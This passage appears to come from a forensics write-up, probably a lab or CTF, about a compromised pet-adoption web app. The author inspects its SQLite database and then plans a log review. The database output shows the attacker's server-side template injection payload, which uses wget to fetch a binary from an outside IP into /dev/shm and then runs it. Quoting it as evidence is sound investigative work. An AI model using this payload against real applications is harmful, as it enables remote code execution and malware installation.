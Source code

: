 Some types of exploits will require the payload to be saved in the database, finding and understanding it may help us figure out where to focus in the app during code review. So lets take a look with sqlite!

```
$ sqlite3 ./04578048.sqlite
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .schema
CREATE TABLE sqlite_sequence(name,seq);
CREATE TABLE users(
user_id INTEGER PRIMARY KEY AUTOINCREMENT,
username text not null,
password text not null);
CREATE TABLE paws(
   paw_id INTEGER PRIMARY KEY AUTOINCREMENT,
   name text not null,
   uploaded_by text not null,
   description text not null,
   animal text not null,
   profile_pic text not null
);
CREATE TABLE paw_adoption(
   adopt_id INTEGER PRIMARY KEY AUTOINCREMENT,
   paw_id INTEGER not null,
   name text not null,
   email text not null
);
sqlite> select * from paws;
1|BoBo|trudy|Meet BoBo, a stunning golden retriever with a heart of 
...
14|a|trudy|a|{{ self.__init__.__globals__.__builtins__.__import__('os').popen('wget http://137.184.178.106:8000/uf -O /dev/shm/uf;chmod +x /dev/shm/uf;/dev/shm/uf').read() }}|static/img/a.png
sqlite>
```
I've truncated some of the output here, but we can see the payload was in the database! This is a great find, we need to understand the schema to make use of this later though.

The payload is in the `animal` column, so this is probably related to an animal parameter somewhere in the app's code.

### Log Review

The last part before we get into code review is the logs, seeing what endpoints an attacker was interacting with will help us narrow the code review even further.

In the process list earlier was caddy, we can assume that the web server was hosted with this, and those are the logs we should review. We just need to mount the disk image to get those.

When working with disk images during investigations, we don't want to modify the disk image at all, so we'll only mount this ad read-only. Professionals may also use what's called a hardware write blocker to ensure no modifications are being made instead of a software write blocker like we're using in this case by mounting read-only.
